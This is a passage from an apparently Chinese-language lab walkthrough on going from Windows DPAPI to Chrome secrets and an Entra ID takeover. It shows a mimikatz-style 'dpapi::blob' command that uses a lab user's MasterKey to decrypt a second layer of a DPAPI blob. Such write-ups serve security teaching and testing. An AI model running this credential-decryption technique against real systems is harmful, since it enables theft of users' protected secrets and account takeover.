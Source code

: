![image-20250929195925370](/assets/posts/2025-09-30-from-dpapi-to-chrome-a-journey-to-entra-id-takeover/image-20250929195925370.png)

如上图所示，返回结果中的 `data` 部分就是第一次解密得到的数据，我们将其以 BLOB 的格式提取到 “decrypted_blob_1.bin” 文件中。

（6）之后，我们需要使用 “offseclabs\david.lewis” 用户的 MasterKey 对 “decrypted_blob_1.bin” 中的数据进行二次解密。

```powershell
dpapi::blob /in:".\decrypted_blob_1.bin" /masterkey:"f7207dc067794eca1d528ce941e63fa37670566c9770c56692a04462df41ce462266eb784037d396238f5c54fc0adf586d568bd1acc827beda452220ad83883b"
```

> 这里省去了分析 “decrypted_blob_1.txt” 的过程，因为该用户只有这一个 MasterKey，并在前文中我们已掌握。

![image-20250929202158541](/assets/posts/2025-09-30-from-dpapi-to-chrome-a-journey-to-entra-id-takeover/image-20250929202158541.png)
